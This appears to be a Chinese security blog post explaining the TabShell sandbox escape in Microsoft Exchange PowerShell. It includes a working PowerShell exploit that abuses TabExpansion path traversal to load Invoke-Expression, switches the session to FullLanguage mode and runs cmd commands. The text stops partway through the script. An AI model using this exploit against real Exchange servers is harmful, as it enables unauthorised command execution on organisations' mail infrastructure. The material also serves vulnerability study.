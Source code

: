 ```yaml
---
layout: post
title: TabShell利用分析——执行cmd命令并获得返回结果
---
```



## 0x00 前言
---

利用TabShell可以使用普通用户逃避沙箱并在Exchange Powershell中执行任意cmd命令，本文将要介绍利用TabShell执行cmd命令并获得返回结果的方法，分享通过Python编写脚本的细节。

## 0x01 简介
---

本文将要介绍以下内容：

- 执行cmd命令并获得返回结果的方法
- Python实现

## 0x02 执行cmd命令并获得返回结果的方法
---

testanull公开了一个利用的POC，地址如下：https://gist.github.com/testanull/518871a2e2057caa2bc9c6ae6634103e

为了能够支持更多的命令，POC需要做简单修改，细节如下：

某些命令无法执行，例如`netstat -ano`或者`systeminfo`

解决方法：

去掉命令：`$ps.WaitForExit()`

执行cmd命令并获得返回结果的方法有以下两种：

### 1.使用Powershell连接Exchange服务器，实现TabShell

Powershell命令示例：

```
$uri = "http://Exchange01.test.com/PowerShell/"
$username = "test\administrator"
$password = "Password123"

$secure = ConvertTo-SecureString $password -AsPlainText -Force 
$creds  = New-Object System.Management.Automation.PSCredential -ArgumentList ($username, $secure)
$version = New-Object -TypeName System.Version -ArgumentList "2.0"
$mytable = $PSversionTable
$mytable["WSManStackVersion"] = $version
$sessionOption = New-PSSessionOption -SkipCACheck -SkipCNCheck -SkipRevocationCheck -ApplicationArguments @{PSversionTable=$mytable}
$Session = New-PSSession -ConfigurationName Microsoft.Exchange -ConnectionUri $uri -Credential $creds -Authentication Kerberos -AllowRedirection -SessionOption $sessionOption
Invoke-Command -Session $session -ScriptBlock { 
    TabExpansion -line ";../../../../Windows/Microsoft.NET/assembly/GAC_MSIL/Microsoft.PowerShell.Commands.Utility/v4.0_3.0.0.0__31bf3856ad364e35/Microsoft.PowerShell.Commands.Utility.dll\Invoke-Expression" -lastWord "-test" 
}
invoke-expression "`$ExecutionContext.SessionState.LanguageMode='FullLanguage'"
$ps = new-object System.Diagnostics.Process
$ps.StartInfo.Filename = "ipconfig"
$ps.StartInfo.Arguments = " /all"
$ps.StartInfo.RedirectStandardOutput = $True
$ps.StartInfo.UseShellExecute = $false
```